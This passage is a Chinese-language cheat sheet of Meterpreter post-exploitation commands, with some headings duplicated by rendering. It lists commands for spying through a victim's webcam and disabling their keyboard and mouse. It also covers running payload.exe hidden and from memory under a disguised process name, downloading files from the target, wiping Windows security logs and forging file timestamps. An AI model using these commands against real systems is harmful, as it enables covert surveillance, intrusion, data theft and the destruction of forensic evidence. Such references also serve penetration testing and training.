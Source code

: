 webcam_snap     #通过摄像头拍照
webcam_stream   #通过摄像头开启视频</code></pre>
<hr/>
<h4>uictl开关键盘/鼠标</h4>
<pre><code>uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
uictl disable mouse     #禁用鼠标
uictl disable keyboard  #禁用键盘
</code></pre>
<hr/>
<h4>execute执行文件</h4>
<pre><code>execute   #在目标机中执行文件
execute -H -i -f  cmd.exe   #创建新进程cmd.exe，-H不可见，-i交互
execute -H -m -d notepad.exe -f payload.exe -a "-o hack.txt"
  #-d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行
  #"-o hack.txt"是payload.exe的运行参数
</code></pre>
<hr/>
<h4>clearev清除日志</h4>
<pre><code>clearev    #清除windows中的应用程序日志、系统日志、安全日志
</code></pre>


#### cmd命令

---


#### uictl开关键盘/鼠标

---


#### clearev清除日志

> 
<h3>2.3、文件系统命令</h3>
<h4>基本文件系统命令</h4>
<pre><code>ls   #列出当前目录中的文件列表
cd   #进入指定目录
getwd / pwd              #查看当前工作目录  
search -d c:\\ -f *.txt  #搜索文件  -d 目录 -f 文件名
cat c:\\123.txt          #查看文件内容
upload /tmp/hack.txt C:\\   #上传文件到目标机上
download c:\\123.txt /tmp/  #下载文件到本机上
edit c:\\test.txt  #编辑或创建文件  没有的话，会新建文件
rm C:\\hack.txt    #删除文件
mkdir admin    #只能在当前目录下创建文件夹
rmdir admin    #只能删除当前目录下文件夹
getlwd / lpwd  #查看本地当前目录
lcd /tmp       #切换本地目录
</code></pre>
<hr/>
<h4>timestomp伪造时间戳</h4>
<pre><code>timestomp C:\\ -h        #查看帮助
timestomp -v C:\\2.txt   #查看时间戳
timestomp C:\\2.txt -f C:\\1.txt   #将1.txt的时间戳复制给2.txt
timestomp  c:\\test\\22.txt -z "03/10/2019 11:55:55" -v    #把四个属性设置为统一时间
</code></pre>
